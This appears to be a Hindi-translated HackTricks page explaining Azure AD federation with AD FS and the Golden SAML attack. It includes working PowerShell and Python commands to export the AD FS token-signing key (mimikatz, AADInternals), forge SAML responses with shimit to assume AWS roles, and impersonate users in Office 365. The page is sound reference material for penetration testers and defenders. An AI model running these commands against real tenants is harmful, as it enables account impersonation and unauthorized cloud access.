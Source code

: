 # Az - Federation

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)

>**फेडरेशन** एक **डोमेन** का संग्रह है जिसने **विश्वास** स्थापित किया है। विश्वास का स्तर भिन्न हो सकता है, लेकिन आमतौर पर इसमें **प्रमाणीकरण** शामिल होता है और लगभग हमेशा **अधिकार** शामिल होता है। एक सामान्य फेडरेशन में **संस्थाओं की संख्या** शामिल हो सकती है जिन्होंने **साझा पहुंच** के लिए **विश्वास** स्थापित किया है।
>आप अपने **ऑन-प्रिमाइसेस** वातावरण को **Azure AD** के साथ **फेडरेट** कर सकते हैं और इस फेडरेशन का उपयोग प्रमाणीकरण और अधिकार के लिए कर सकते हैं। यह साइन-इन विधि सुनिश्चित करती है कि सभी उपयोगकर्ता **प्रमाणीकरण ऑन-प्रिमाइसेस** पर होता है। यह विधि प्रशासकों को अधिक कठोर स्तरों के पहुंच नियंत्रण को लागू करने की अनुमति देती है। **AD FS** और PingFederate के साथ फेडरेशन उपलब्ध है।

<figure><img src="../../../../images/image (154).png" alt=""><figcaption></figcaption></figure>

बुनियादी रूप से, फेडरेशन में, सभी **प्रमाणीकरण** **ऑन-प्रिम** वातावरण में होता है और उपयोगकर्ता सभी विश्वसनीय वातावरणों में SSO का अनुभव करता है। इसलिए, उपयोगकर्ता अपने **ऑन-प्रिम क्रेडेंशियल्स** का उपयोग करके **क्लाउड** अनुप्रयोगों तक **पहुँच** कर सकते हैं।

**सिक्योरिटी असेर्शन मार्कअप लैंग्वेज (SAML)** का उपयोग सभी प्रमाणीकरण और अधिकार **जानकारी** के **अदला-बदली** के लिए किया जाता है।

किसी भी फेडरेशन सेटअप में तीन पक्ष होते हैं:

- उपयोगकर्ता या क्लाइंट
- पहचान प्रदाता (IdP)
- सेवा प्रदाता (SP)

<figure><img src="../../../../images/image (121).png" alt="https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps"><figcaption>https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps</figcaption></figure>

1. प्रारंभ में, एक अनुप्रयोग (सेवा प्रदाता या SP, जैसे AWS कंसोल या vSphere वेब क्लाइंट) का उपयोगकर्ता द्वारा एक्सेस किया जाता है। यह कदम बायपास किया जा सकता है, जिससे क्लाइंट सीधे IdP (पहचान प्रदाता) पर जाता है, जो विशिष्ट कार्यान्वयन पर निर्भर करता है।
2. इसके बाद, SP उपयोगकर्ता प्रमाणीकरण के लिए उपयुक्त IdP (जैसे, AD FS, Okta) की पहचान करता है। फिर यह एक SAML (सिक्योरिटी असेर्शन मार्कअप लैंग्वेज) AuthnRequest तैयार करता है और क्लाइंट को चुने हुए IdP पर पुनः मार्गदर्शित करता है।
3. IdP आगे बढ़ता है, उपयोगकर्ता को प्रमाणीकरण करता है। प्रमाणीकरण के बाद, IdP द्वारा एक SAMLResponse तैयार किया जाता है और उपयोगकर्ता के माध्यम से SP को अग्रेषित किया जाता है।
4. अंततः, SP SAMLResponse का मूल्यांकन करता है। यदि सफलतापूर्वक मान्य किया गया, जो IdP के साथ विश्वास संबंध को इंगित करता है, तो उपयोगकर्ता को पहुंच दी जाती है। यह लॉगिन प्रक्रिया के पूर्ण होने का संकेत देता है, जिससे उपयोगकर्ता सेवा का उपयोग कर सकता है।

**यदि आप SAML प्रमाणीकरण और सामान्य हमलों के बारे में अधिक जानना चाहते हैं, तो जाएं:**

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/saml-attacks/index.html
{{#endref}}

## Pivoting

- AD FS एक क्लेम-आधारित पहचान मॉडल है।
- "..क्लेम्स बस उपयोगकर्ताओं के बारे में किए गए बयानों (उदाहरण के लिए, नाम, पहचान, समूह) हैं, जो मुख्य रूप से इंटरनेट पर कहीं भी क्लेम-आधारित अनुप्रयोगों तक पहुंच को अधिकृत करने के लिए उपयोग किए जाते हैं।"
- एक उपयोगकर्ता के लिए क्लेम्स SAML टोकनों के अंदर लिखे जाते हैं और फिर IdP द्वारा गोपनीयता प्रदान करने के लिए हस्ताक्षरित होते हैं।
- एक उपयोगकर्ता को ImmutableID द्वारा पहचाना जाता है। यह वैश्विक रूप से अद्वितीय है और Azure AD में संग्रहीत है।
- ImmutableID उपयोगकर्ता के लिए ऑन-प्रिम में ms-DS-ConsistencyGuid पर संग्रहीत होता है और/या उपयोगकर्ता के GUID से निकाला जा सकता है।
- अधिक जानकारी [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims) में है।

**गोल्डन SAML हमला:**

- ADFS में, SAML Response को एक टोकन-हस्ताक्षर प्रमाणपत्र द्वारा हस्ताक्षरित किया जाता है।
- यदि प्रमाणपत्र से समझौता किया जाता है, तो Azure AD में किसी भी उपयोगकर्ता के रूप में प्रमाणीकरण करना संभव है जो Azure AD के साथ समन्वयित है!
- हमारे PTA दुरुपयोग की तरह, किसी उपयोगकर्ता के लिए पासवर्ड परिवर्तन या MFA का कोई प्रभाव नहीं होगा क्योंकि हम प्रमाणीकरण प्रतिक्रिया को जाली बना रहे हैं।
- प्रमाणपत्र को DA विशेषाधिकार के साथ AD FS सर्वर से निकाला जा सकता है और फिर इसे किसी भी इंटरनेट से जुड़े मशीन से उपयोग किया जा सकता है।
- अधिक जानकारी [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps) में है।

### गोल्डन SAML

एक **पहचान प्रदाता (IdP)** द्वारा उपयोगकर्ता साइन-इन को अधिकृत करने के लिए **SAMLResponse** उत्पन्न करने की प्रक्रिया महत्वपूर्ण है। IdP के विशिष्ट कार्यान्वयन के आधार पर, **प्रतिक्रिया** **हस्ताक्षरित** या **एन्क्रिप्टेड** हो सकती है, जो **IdP की निजी कुंजी** का उपयोग करती है। यह प्रक्रिया **सेवा प्रदाता (SP)** को SAMLResponse की प्रामाणिकता की पुष्टि करने में सक्षम बनाती है, यह सुनिश्चित करते हुए कि यह वास्तव में एक विश्वसनीय IdP द्वारा जारी किया गया था।

[गोल्डन टिकट हमले](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html#golden-ticket) के साथ एक समानांतर खींचा जा सकता है, जहां उपयोगकर्ता की पहचान और अनुमतियों (गोल्डन टिकट के लिए KRBTGT, गोल्डन SAML के लिए टोकन-हस्ताक्षर निजी कुंजी) को **प्रमाणीकरण वस्तु** (TGT या SAMLResponse) को जाली बनाने के लिए हेरफेर किया जा सकता है। यह किसी भी उपयोगकर्ता का अनुकरण करने की अनुमति देता है, SP तक अनधिकृत पहुंच प्रदान करता है।

गोल्डन SAML कुछ लाभ प्रदान करते हैं:

- इन्हें **दूरस्थ रूप से** बनाया जा सकता है, बिना डोमेन या फेडरेशन का हिस्सा बने।
- ये **दो-कारक प्रमाणीकरण (2FA)** सक्षम होने पर भी प्रभावी रहते हैं।
- टोकन-हस्ताक्षर **निजी कुंजी स्वचालित रूप से नवीनीकरण नहीं करती है**।
- **किसी उपयोगकर्ता का पासवर्ड बदलने से पहले से उत्पन्न SAML अमान्य नहीं होता है**।

#### AWS + AD FS + गोल्डन SAML

[एक्टिव डायरेक्टरी फेडरेशन सर्विसेज (AD FS)](<https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402(v=msdn.10)>) एक Microsoft सेवा है जो विश्वसनीय व्यापार भागीदारों (फेडरेशन) के बीच **पहचान जानकारी के सुरक्षित आदान-प्रदान** की सुविधा प्रदान करती है। यह मूल रूप से एक डोमेन सेवा को एक फेडरेशन के भीतर अन्य सेवा प्रदाताओं के साथ उपयोगकर्ता पहचान साझा करने की अनुमति देती है।

AWS द्वारा समझौता किए गए डोमेन पर भरोसा करने के साथ (एक फेडरेशन में), इस भेद्यता का उपयोग संभावित रूप से **AWS वातावरण में किसी भी अनुमतियों को प्राप्त करने** के लिए किया जा सकता है। हमले के लिए **SAML वस्तुओं पर हस्ताक्षर करने के लिए उपयोग की जाने वाली निजी कुंजी** की आवश्यकता होती है, जैसे कि गोल्डन टिकट हमले में KRBTGT की आवश्यकता होती है। AD FS उपयोगकर्ता खाते तक पहुंच इस निजी कुंजी को प्राप्त करने के लिए पर्याप्त है।

गोल्डन SAML हमले को निष्पादित करने के लिए आवश्यकताएँ हैं:

- **टोकन-हस्ताक्षर निजी कुंजी**
- **IdP सार्वजनिक प्रमाणपत्र**
- **IdP नाम**
- **भूमिका नाम (धारण करने के लिए भूमिका)**
- डोमेन\उपयोगकर्ता नाम
- AWS में भूमिका सत्र नाम
- अमेज़न खाता आईडी

_केवल बोल्ड में दिए गए आइटम अनिवार्य हैं। अन्य को इच्छानुसार भरा जा सकता है।_

**निजी कुंजी** प्राप्त करने के लिए, **AD FS उपयोगकर्ता खाते** तक पहुंच आवश्यक है। वहां से, निजी कुंजी को [mimikatz](https://github.com/gentilkiwi/mimikatz) जैसे उपकरणों का उपयोग करके **व्यक्तिगत स्टोर से निर्यात** किया जा सकता है। अन्य आवश्यक जानकारी एकत्र करने के लिए, आप Microsoft.Adfs.Powershell स्नैपिन का उपयोग कर सकते हैं, यह सुनिश्चित करते हुए कि आप ADFS उपयोगकर्ता के रूप में लॉग इन हैं:
```bash
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
सभी जानकारी के साथ, आप [**shimit**](https://github.com/cyberark/shimit)** का उपयोग करके उस उपयोगकर्ता के रूप में एक मान्य SAMLResponse को भूलना संभव है जिसे आप अनुकरण करना चाहते हैं:**
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
<figure><img src="../../../../images/image (128).png" alt="https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps"><figcaption>https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps</figcaption></figure>

### ऑन-प्रेम -> क्लाउड
```bash
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
यह भी संभव है कि केवल क्लाउड उपयोगकर्ताओं का ImmutableID बनाया जाए और उनकी नकल की जाए।
```bash
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## संदर्भ

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
- [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

{{#include ../../../banners/hacktricks-training.md}}
